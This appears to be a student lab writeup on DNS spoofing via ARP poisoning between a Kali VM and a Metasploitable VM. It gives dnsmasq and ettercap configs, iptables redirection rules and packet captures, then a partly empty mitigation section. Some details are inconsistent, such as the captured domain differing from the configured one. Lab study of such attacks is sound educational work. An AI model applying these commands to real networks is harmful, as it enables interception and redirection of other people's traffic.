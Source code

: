 #+title: Networks Project
#+Author: Adithya Nair
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="https://gongzhitaao.org/orgcss/org.css"/>

* Background
This is a demonstration of a DNS Spoofing attack using virtual machines.

The process in brief, we start up a Kali VM running dnsmasq.

dnsmasq is a service that allows you to run a lightweight dns server for local networks. The attack works as follows.

A user attempts to access a domain, for this example we have poisoned the DNS records of the domain grouptwo.com. The Kali VM performs an ARP spoof, which sends ARP packets to all the devices in the local network to make the Kali VM act as the default gateway. All requests are routed through the VM now.

The VM is setup such that it performs IP forwarding, all packets are sent to their intended destination.

We update the IP tables to redirect and manage DNS traffic, both TCP and UDP packets. We also add in a command that updates the source address of the IP address of the DNS response to make it seem like it came from a legitimate DNS server (for example 8.8.8.8).

We apply the attack using the ettercap software as will be detailed below.

* Implementation
We have two VMs, one running Kali Linux and the other running a VM called Metasploitable. These VMs exist in a virtual network with the network address 10.0.2.0
* Setup
** IP Address Info
 * Kali VM - 10.0.2.15
 * Metasploitable - 10.0.2.4
** On Kali
*** Writing The DNSMasq Configuration
#+begin_src conf
interface=eth0
address=/grouptwo.com/10.0.2.15
#+end_src
*** Writing The etter.dns configuration
#+begin_src conf
grouptwo.com A 10.0.2.15
#+end_src
*** Enabling IP Forwarding
#+begin_src shell
echo 1 > /proc/sys/net/ipv4/ip_forward
#+end_src
*** Configuring The IP Tables
#+begin_src shell
sudo iptables -t nat -A PREROUTING -p udp --dport 53 -j DNAT --to-destination 10.0.2.15:53
sudo iptables -t nat -A PREROUTING -p tcp --dport 53 -j DNAT --to-destination 10.0.2.15:53
sudo iptables -t nat -A POSTROUTING -j MASQUERADE
#+end_src
* How To Execute The Attack
** On Kali
Start DNS Server
#+begin_src shell
sudo systemctl start dnsmasq.service
#+end_src

Start sniffing

#+begin_src shell
sudo ettercap -G
#+end_src

Click Accept

Apply scan for hosts.

Activate the DNS Spoofing plugin.
* Packets Captured
** Query
*** Summary
#+begin_example
97	39.532672	10.0.2.4	8.8.8.8	DNS	70	Standard query 0x8dd1 A google.com
#+end_example
*** YAML
#+begin_example
# Packet 0 from /home/kali/Desktop/dns_spoofing.pcap
- 97
- 39.532672
- 10.0.2.4
- 8.8.8.8
- DNS
- 70
- Standard query 0x8dd1 A google.com
#+end_example
*** Packet
#+begin_example
Frame 97: 70 bytes on wire (560 bits), 70 bytes captured (560 bits)
Ethernet II, Src: PCSSystemtec_c1:17:c2 (08:00:27:c1:17:c2), Dst: PCSSystemtec_ad:25:87 (08:00:27:ad:25:87)
Internet Protocol Version 4, Src: 10.0.2.4, Dst: 8.8.8.8
User Datagram Protocol, Src Port: 53085, Dst Port: 53
    Source Port: 53085
    Destination Port: 53
    Length: 36
    Checksum: 0x7275 [unverified]
    [Checksum Status: Unverified]
    [Stream index: 0]
    [Timestamps]
    UDP payload (28 bytes)
Domain Name System (query)
    Transaction ID: 0x8dd1
    Flags: 0x0100 Standard query
    Questions: 1
    Answer RRs: 0
    Authority RRs: 0
    Additional RRs: 0
    Queries
    [Response In: 98]
#+end_example

** Response
*** Summary
#+begin_example
99	39.533556	8.8.8.8	10.0.2.4	DNS	86	Standard query response 0x8dd1 A google.com A 10.0.2.15
#+end_example
*** YAML
#+begin_example
# Packet 1 from /home/kali/Desktop/dns_spoofing.pcap
- 98
- 39.532899
- 8.8.8.8
- 10.0.2.4
- DNS
- 86
- Standard query response 0x8dd1 A google.com A 10.0.2.15
#+end_example
*** Packet
#+begin_example
Frame 98: 86 bytes on wire (688 bits), 86 bytes captured (688 bits)
Ethernet II, Src: PCSSystemtec_ad:25:87 (08:00:27:ad:25:87), Dst: PCSSystemtec_c1:17:c2 (08:00:27:c1:17:c2)
Internet Protocol Version 4, Src: 8.8.8.8, Dst: 10.0.2.4
User Datagram Protocol, Src Port: 53, Dst Port: 53085
    Source Port: 53
    Destination Port: 53085
    Length: 52
    Checksum: 0x1c59 [unverified]
    [Checksum Status: Unverified]
    [Stream index: 0]
    [Timestamps]
    UDP payload (44 bytes)
Domain Name System (response)
    Transaction ID: 0x8dd1
    Flags: 0x8580 Standard query response, No error
    Questions: 1
    Answer RRs: 1
    Authority RRs: 0
    Additional RRs: 0
    Queries
    Answers
    [Request In: 97]
    [Time: 0.000227000 seconds]
#+end_example
* Ways To Mitigate Against The Attack
** Static ARP Entries
Assign a static IP Address to the router.
#+begin_src shell
arp -s <gateway-ip> <gateway-mac-address>
#+end_shell
** Dynamic ARP Inspection
#+begin_src shell
#+end_src
